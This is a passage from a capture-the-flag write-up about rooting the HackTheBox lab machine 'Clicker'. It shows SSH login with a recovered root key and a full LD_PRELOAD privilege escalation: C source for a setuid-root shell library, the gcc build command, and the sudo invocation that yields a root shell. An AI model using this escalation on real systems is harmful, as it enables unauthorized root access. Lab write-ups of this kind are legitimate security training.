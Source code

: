 With that, I’m able to save it to a file on my host, and SSH in:

```

oxdf@hacky$ vim ~/keys/clicker-root
oxdf@hacky$ chmod 600 ~/keys/clicker-root
oxdf@hacky$ ssh -i ~/keys/clicker-root root@clicker.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)
...[snip]...
root@clicker:~# 

```

### Method #3 via LD\_PRELOAD

Ippsec actually pointed this one out to me (though I’m embarrassed I missed it in hindsight). If I can set almost any environment variable, why not `LD_PRELOAD`? `LD_PRELOAD` is an environment variable that tells all running programs of a library to load on executing. [This HackTricks page](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path) has exploit code.

I’ll create a simple C program that unsets the `LD_PRELOAD` variable (to prevent loops), sets the privileges to root user and group, and runs `bash`:

```

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

```

There’s no compilation tools on the host, but since both it and my VM are Ubuntu-based, compiling locally shouldn’t cause issues. I’ll generate a `.so` file:

```

oxdf@hacky$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles

```

I’ll copy this file up to Clicker into `/tmp`. Now I can run with `LD_PRELOAD` pointing at this shared object and it will run `bash`:

```

jack@clicker:~$ sudo LD_PRELOAD=/tmp/shell.so /opt/monitor.sh 
root@clicker:/home/jack# 

```